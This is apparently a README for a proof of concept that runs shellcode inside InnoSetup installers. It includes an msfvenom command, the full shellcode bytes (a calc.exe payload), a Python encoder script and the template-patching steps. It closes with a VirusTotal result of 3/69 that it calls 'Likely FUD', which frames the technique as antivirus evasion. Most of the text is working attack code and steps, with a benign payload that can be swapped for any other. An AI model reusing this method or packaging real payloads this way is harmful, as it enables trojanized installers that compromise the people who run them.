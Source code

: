 # InnoSetup Execute Shellcode PoC

![Screenshot 2021-07-20 at 19.10.40.png](https://s3.eu-central-1.amazonaws.com/www.phrozen.io/uploads/Screenshot_2021-07-20_at_19.10.40.png)

This PoC demonstrate how to take advantage of InnoSetup scripting engine to run shellcode through Windows API.

The difficulty behind this concept was the lack of important code features (especially pointer support).

## How To

### Generate your payload

Using `msfvenom`, generate your payload. In our case a basic exec Windows calc shellcode.

`msfvenom -p windows/exec -a x86 --platform Windows CMD=calc.exe EXITFUNC=thread -f python -v payload`

```
payload =  b""
payload += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
payload += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
payload += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
payload += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
payload += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
payload += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
payload += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
payload += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
payload += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
payload += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
payload += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
payload += b"\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00"
payload += b"\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d"
payload += b"\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
payload += b"\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
payload += b"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65"
payload += b"\x00"
```

### Edit Payload Helper Script

Edit the `payload_helper.py` script and place freshly generated payload at the correct location.

```
payload =  b""
payload += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
payload += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
payload += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
payload += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
payload += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
payload += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
payload += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
payload += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
payload += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
payload += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
payload += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
payload += b"\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00"
payload += b"\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d"
payload += b"\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
payload += b"\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
payload += b"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65"
payload += b"\x00"

if __name__ == '__main__':
    template = "PAYLOAD[%d] := $%x;\n";

    payload_code = ""

    for index, byte in enumerate(payload):
        payload_code += template % (index, byte)


    print(payload_code)
    print(len(payload))
```

### Run Payload Helper

Then run payload helper script

`python gen_innocode.py`

Two important information are generated.

First one is the payload itself (encoded to InnoSetup Script Engine format)

Second one is the payload size.

### Patch Payload in Innosetup Template

Copy the encoded payload to the `FIX_ME_PLEASE` in function `InitializePayload()` location inside the InnoSetup template file.

```
procedure InitializePayload();
begin
  FIX_ME_PLEASE
end;
```

To

```
procedure InitializePayload();
begin
  PAYLOAD[0] := $fc;
  PAYLOAD[1] := $e8;
  PAYLOAD[2] := $82;
  PAYLOAD[3] := $0;
  ... snip ...
  PAYLOAD[190] := $78;
  PAYLOAD[191] := $65;
  PAYLOAD[192] := $0;  
end;
```

### Patch Payload size in Innosetup Template

Copy the payload size to the other `FIX_ME_PLEASE` location in the PAYLOAD array declaration.

```
type 
  TPayloadArray = array[0..FIX_ME_PLEASE-1] of byte;
```

To

```
type 
  TPayloadArray = array[0..193-1] of byte;
```
## Ready

Your InnoSetup script is now ready. You can build and execute your script and enjoy the result.

A calculator process should spawn during installation process.

Notice: I decided to place the shellcode execution code in a specific installation step. Feel free to place this code anywhere during installation process.

For InnoSetup 64bit setup installation mode, few things needs to be adapted. I will surely do it soon as the time permit me ;-)

If you like it, share!

## VirusTotal Score (20 JULY 2021)

https://www.virustotal.com/gui/file/697f7d55aa19e9dfaa5b86d8117c4f57adaba1ea252e008d7760e0a192515ac8/detection

3/69 (Mostly generic detection because of file reputation) / Likely FUD

![Screenshot 2021-07-20 at 19.09.53.png](https://s3.eu-central-1.amazonaws.com/www.phrozen.io/uploads/Screenshot_2021-07-20_at_19.09.53.png)
